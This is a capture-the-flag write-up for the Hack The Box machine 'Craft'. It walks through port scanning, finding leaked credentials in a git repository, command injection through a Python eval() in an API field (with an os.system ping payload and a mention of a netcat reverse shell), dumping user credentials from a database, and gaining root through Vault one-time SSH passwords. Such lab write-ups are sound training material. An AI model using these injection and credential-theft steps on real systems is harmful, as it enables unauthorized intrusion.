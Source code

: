 Victim IP: 10.10.10.110
Victim OS: Linux

### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png)

The “API” link points to api.craft.htb and the “Sign in” button to “gogs.craft.htb” therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/api_craft.png)

### Enumeration - https://gogs.craft.htb
Repository housing the code and content for api.craft.htb.
Reviewing all commits and merge requests, dinesh’s credentials were accidentally commited and removed. 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png)

The credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png)

Reviewing more code in the repository and especially the functions for the POST and PUT API options  leads to finding a vulnerable python function “eval”. The issue fix by dinesh also shows this function
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png)

This function resides in the POST brew function in brew.py.

### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png)

That works.
Test 2: with a similar “if” statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
![Test 3](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test3.png)

	```
  tcpdump -i tun0 -nnv icmp
  ```
	Payload (test.py): 
	```
  brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' 
  ```

Try 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.
	The payload becomes: 
  <screen_shot>

It’s says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy :( 

Running “cat /etc/issue”, LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py

Modify the SQL in the try statement to select all users from the database
```try: 
    with connection.cursor() as cursor:
        sql = "SELECT * from user" # show tables. 
        cursor.execute(sql)
        result = cursor.fetchall() #change from fetchone to fetchall
        print(result)

finally:
    connection.close()
```
Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
<screen_shot>

Gilfoyle’s OTP setup:
<screen_shot>


Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
<screenshot>



Then SSH to the host using the generated key and the root user:
<screenshot>

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
